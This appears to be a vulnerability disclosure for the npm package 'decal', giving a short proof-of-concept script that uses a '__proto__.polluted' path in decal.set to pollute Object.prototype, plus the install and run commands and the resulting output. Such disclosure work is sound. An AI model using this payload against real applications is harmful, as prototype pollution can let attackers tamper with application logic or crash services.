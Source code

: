 # Description

Prototype Pollution in decal

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var decal = require("decal")
var obj = {}
console.log("Before : " + {}.polluted);
decal.set(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i decal # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
